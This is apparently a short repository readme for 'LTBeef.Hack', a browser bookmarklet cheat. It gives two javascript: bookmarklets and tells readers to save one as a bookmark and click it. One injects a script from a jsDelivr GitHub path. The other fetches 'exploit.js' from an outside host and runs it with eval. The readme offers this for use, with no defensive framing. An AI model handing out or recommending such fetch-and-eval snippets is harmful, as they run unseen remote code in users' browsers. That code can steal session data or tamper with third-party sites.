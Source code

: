 # LTBeef.Hack
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwor...}())
Make a bookmark put this code in and click the bookmark twice.

javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
